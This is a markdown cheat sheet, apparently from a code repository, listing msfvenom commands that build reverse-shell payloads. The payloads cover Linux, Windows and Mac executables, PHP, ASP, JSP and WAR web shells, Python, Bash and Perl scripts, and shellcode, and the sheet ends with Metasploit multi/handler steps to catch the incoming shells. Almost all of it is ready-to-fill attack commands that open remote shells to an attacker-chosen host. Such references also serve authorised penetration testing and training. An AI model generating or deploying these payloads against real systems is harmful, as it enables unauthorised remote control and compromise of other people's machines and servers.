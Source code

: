 # List payloads
```bash
msfvenom -l
```
# Binaries
## Linux

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
## Windows

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
## Mac

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

# Web Payloads
## PHP

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
## WAR

```bash 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
# Scripting Payloads
## Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
## Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
## Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
# Shellcode
>For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

## Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Windows Based Shellcode

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

1.use exploit/multi/handler
2.set PAYLOAD <Payload name>
3.set LHOST <LHOST value>
4.set LPORT <LPORT value>
5.set ExitOnSession false
6.exploit -j -z
> Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

